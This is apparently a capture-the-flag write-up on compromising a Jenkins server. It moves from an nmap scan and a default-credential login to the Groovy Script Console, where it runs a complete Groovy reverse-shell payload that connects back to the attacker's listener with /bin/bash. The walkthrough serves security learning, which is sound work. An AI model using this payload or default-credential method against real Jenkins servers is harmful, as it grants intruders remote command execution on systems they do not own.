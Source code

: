 ## 1. Enumeration

- As always, we will be starting with an nmap scan:

![img.png](img/img.png)

- Visit the website at port 8080, we are now presented with a Jenkins web page.
---
### <i>Note</i>
```
Jenkins is a open source automation server. It helps automate the parts of software development related to building, testing and deploying, facilitating 
continuos integration and delivery (CI/CD). It is a server-based system.
```
---

- The only hint of leverage we currently have against this login screen would be to attempt logging in using default
credentials. In the hopes that the server administrators have not yet finished configuring the Jenkins service. We
can perform a Google search for default Jenkins login credentials on a fresh install.
- After attempting multiple combinations from the list, we land on a successful login and are presented with the 
administrative panel for the Jenkins service.

## 2. Foothold

- While searching for Jenkins exposures, we stumble across 2 vital pieces of information:
  - <a href="https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security">A handbook including multiple ways of gaining Jenkins RCE's</a>
  - <a href="https://github.com/gquere/pwn_jenkins">A repo including links to scripts and tools</a>

- In both links provided above, the Jenkins Script Console is mentioned, where what is known as Groovy script can be
written and run arbitrarily. To access it, go to `Manage Jenkins > Script Console`.

![img_1.png](img/img_1.png)

## 3. Exploitation

- The objective of our Groovy script implementation will be to receive a reverse shell connection from the target. 
- Since it only executes the Groovy commands, we will need a specially crafted payload, which can be found in 
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">this github cheatsheet</a>

```
String host="{your_IP}";
int port=4242;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

- After setting up the `nc` listener on port 4242, we can execute the payload by clicking the `Run` button:

![img_2.png](img/img_2.png)

- Going back to our terminal, we can verify that the connection has been established:

![img_3.png](img/img_3.png)